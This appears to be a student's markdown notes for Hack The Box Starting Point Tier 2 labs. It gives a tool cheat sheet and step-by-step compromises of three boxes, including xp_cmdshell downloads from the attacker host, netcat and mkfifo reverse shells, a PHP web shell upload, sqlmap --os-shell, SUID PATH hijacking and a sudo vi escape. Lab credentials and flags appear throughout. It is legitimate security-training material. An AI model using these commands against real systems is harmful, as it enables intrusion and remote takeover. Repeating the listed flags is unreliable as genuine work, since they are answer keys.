


# TIER 2 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap, smbclient, impacket, netcat, winPEAS, Burp Suite, gobuster

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

**smbclient**: ftp-like client to access SMB/CIFS resources on servers

```
smbclient [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan] [-D|--directory=DIR] [-b|--send-buffer=BYTES]
       [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse] [-?|--help] [--usage] [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout]
       [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER]
       [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME] [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM]
       [-U|--user=[DOMAIN/]USERNAME%[PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash] [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN]
       [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE] [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-V|--version] [-c|--command=STRING]
```

**Impacket Colletion**: collection of python classes for working with network protocols

mssqlclient.py - establish authenticated connection to MS SQL
psexec.py - exploit writable shares on samba and start admin reverse shell

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**winpeas**: script that searches for possible paths to escalate privileges on windows hosts

**Burp Suite**: tool to test web application security

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

**WINDOWS CMDs**:<br>
dir --> ls<br>
type --> cat<br>

--------------------------------------------------------------------

## ARCHETYPE BOX

**TOOLS USED**: nmap, smbclient, impacket

**IP Address**: 10.129.100.57

```
nmap -sC -sV -p- -oN archetype_nmap.txt 10.129.100.57
```

**EXPOSED PORT (SERVICE)**:<br>
135 (msrpc)<br>
139 (netbios-ssn)<br>
445 (microsoft-ds)<br>
1433 (ms-sql-s)<br>
5985 (http)<br>
47001 (http)<br>
49664 (msrpc)<br>
49665 (msrpc)<br>
49666 (msrpc)<br>
49667 (msrpc)<br>
49668 (msrpc)<br>
49669 (msrpc)<br>

USER: guest

```
smbclient -N -L 10.129.100.57
```

SHARES:<br>
ADMIN$<br>
backups<br>
C$<br>
IPC$<br>

TARGET SHARE: backups (non-administrative because no $ so no password required)

```
smbclient //10.129.100.57/backups -U guest
> get prod.dtsConfig
```

USER: ARCHETYPE\sql_svc
PASSWORD: M3g4c0rp123

To establish authenticated connection to MS SQL:
```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.100.57 -windows-auth
> enable_xp_cmdshell
> reconfigure
```

Get exe file from host:
```
cd /opt/exe
sudo python3 -m http.server 80
```
```
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/nc.exe -outfile nc.exe"
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/winPEASx64.exe -outfile winPEAS.exe"
```

Start a reverse shell:
```
nc -nlvp 4444  
```
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; ./nc.exe -e cmd.exe 10.10.14.102 4444"
```

C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf3f4951fec21a3

Priveledge Escalation:
```
> .\winPEAS.exe
```

PRIV ESC TARGET: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

FILE CONTENT: net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!

PASSWORD: MEGACORP_4dm1n!!

Exploit writable shares on samba and start admin reverse shell:
```
sudo python3 psexec.py administrator@10.129.100.57
```

FLAG: b91ccec3305e98240082d4474b848528

--------------------------------------------------------------------

## OOPSIE BOX

**TOOLS USED**: nmap, Burp Suite, netcat, gobuster

**IP Address**: 10.129.15.32

```
nmap -sC -sV -p- -oN archetype_nmap.txt 10.129.15.32
```

**EXPOSED PORT (SERVICE)**: 22 (ssh), 80 (http)

Get sitemap and accessible directories from using Burp Suite:


Can also do inspect element to find this.

TARGET: http://10.129.15.32/cdn-cgi/login/

Log in as guest, go to Account.<br>
URL: http://10.129.15.32/cdn-cgi/login/admin.php?content=accounts&id=2

Setting parameter id to 1 will give access to admin account page.

ACCESS ID: 34322

Use Burp Suite to intercept request to go to uploads page and edit cookie to give admin access:


Upload php reverse shell script

```
gobuster dir -u http://10.129.15.32 -w /usr/share/dirb/wordlists/common.txt
```

UPLOAD DIR: http://10.129.15.32/uploads

```
nc -nlvp 4444
```

Go to this url to trigger shell:
http://10.129.15.32/uploads/payload.php

SQL LOGIN (/var/www/html/cdn-cgi/login/db.php):
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

USER: robert<br>
PASSWORD: M3g4C0rpUs3r!<br>
USER.TXT: f2c74ee8db7983851ab2a96a44eb7981<br>

To see who has /bin/bash permission:
```
cat /etc/passwd
```

To get interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
sudo robert
```
To see if robert has any sudo permissions and then see robert's permissions:
```
sudo -l
id
```

PERMISSIONS: uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)<br>
TARGET: bugtracker group

Find files owned by bugtracker group
```
find -group bugtracker
```

TARGET: /usr/bin/bugtracker
PERMISSIONS: -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

root bit is set so file will always run as root.<br>

bugtracker program gives this error when bug not found:
```
cat: /root/reports/32322322323: No such file or directory
```
We can exploit the cat command because it is run insecurely

```
cd /tmp
echo "bin/sh" > cat
chmod +x cat
export PATH=/tmp:$PATH # adds /tmp to the PATH variable
bugtracker
```

FLAG: af13b0bee69f8a877c3faf667f7beacf

--------------------------------------------------------------------

## VACCINE BOX

**TOOLS USED**: nmap, john, sqlmap, netcat

**IP Address**: 10.129.25.68

```
nmap -sC -sV -p- -oN vaccine_nmap.txt 10.129.25.68
```

**EXPOSED PORT (SERVICE)**:<br>
21 (ftp),<br>
22 (ssh), <br>
80 (http)


FTP anonymous login allowed.

```
ftp anonymous@10.129.25.68
ls
get backup.zip
```

```
zip2john backup.zip > 4john.txt
john 4john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

BACKUP.ZIP PASSWORD: 741852963<br>
USER: admin<br>
PASSWORD HASH: 2cb42f8734ea607eefed3b70af13bbd3

```
john password.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```

PASSWORD: qwerty789

PARAMETER: ?search\=

```
sqlmap -u http://10.129.25.68/dashboard.php\?search\=bmw --cookie="PHPSESSID=1k1l8fdirbj26c9i8rrbg2t9gm" --os-shell
```

--os-shell to get interactive shell once sql injection is complete <br>
--cookie either use Burp Suite or inspect element (Application > Storage) after logged in

```
nc -nlvp 4444
```

inject netcat reverse shell from: https://www.revshells.com/
```
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.252 4444 >/tmp/f
```

Find clear text passwords in .php files
```
cd /var/www/html
grep -iR "pass" *
```

USER: postgres
PASSWORD: P@s5w0rd!

```
ssh postgres@10.129.25.68
```

USER.TXT: ec9b13ca4d6229cd5cc1e09980965bf7

```
sudo -l
```

TARGET: /bin/vi

https://gtfobins.github.io/gtfobins/vi/#sudo
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:set shell=/bin/sh
:shell
```

FLAG: dd6e058e814260bc70e9bbdef2715849
